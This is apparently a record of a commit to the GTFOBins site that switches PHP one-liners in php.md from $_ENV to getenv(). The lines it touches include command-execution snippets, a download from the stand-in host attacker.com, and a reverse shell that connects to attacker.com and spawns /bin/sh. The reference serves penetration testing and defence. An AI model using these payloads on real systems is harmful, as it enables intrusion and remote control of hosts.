

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/php.md, in a window 1280 px wide. Shown: the whole page at 97% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Use getenv instead of $_ENV in php as it is configuration-dependent

```diff
--- a/_gtfobins/php.md
+++ b/_gtfobins/php.md
@@ -3,22 +3,22 @@ functions:
   exec-non-interactive:
     - code: |
         export CMD="ls /"
-        php -r 'system($_ENV["CMD"]);'
+        php -r 'system(getenv("CMD"));'
     - code: |
         export CMD="ls /"
-        php -r 'passthru($_ENV["CMD"]);'
+        php -r 'passthru(getenv("CMD"));'
     - code: |
         export CMD="ls /"
-        php -r 'print(shell_exec($_ENV["CMD"]));'
+        php -r 'print(shell_exec(getenv("CMD")));'
     - code: |
         export CMD="ls /"
-        php -r '$r=array(); exec($_ENV["CMD"], $r); print(join(\"\\n\",$r));'
+        php -r '$r=array(); exec(getenv("CMD"), $r); print(join(\"\\n\",$r));'
     - code: |
         export CMD="ls /"
-        php -r '$h=@popen($_ENV["CMD"],"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
+        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
     - code: |
         export CMD="ls /"
-        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open($_ENV["CMD"], $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
+        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
   upload:
     - description: Serve files in the local folder running an HTTP server.
       code: |
@@ -30,11 +30,11 @@ functions:
       code: |-
         export URL=http://attacker.com/file_to_get
         export LFILE=where_to_save
-        php -r '$c=file_get_contents($_ENV["URL"]);file_put_contents($_ENV["LFILE"], $c);'
+        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
   reverse-shell:
     - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
         export RHOST=attacker.com
         export RPORT=12345
-        php -r '$sock=fsockopen($_ENV["RHOST"],$_ENV["RPORT"]);exec("/bin/sh -i <&3 >&3 2>&3");'
+        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
 ---
```
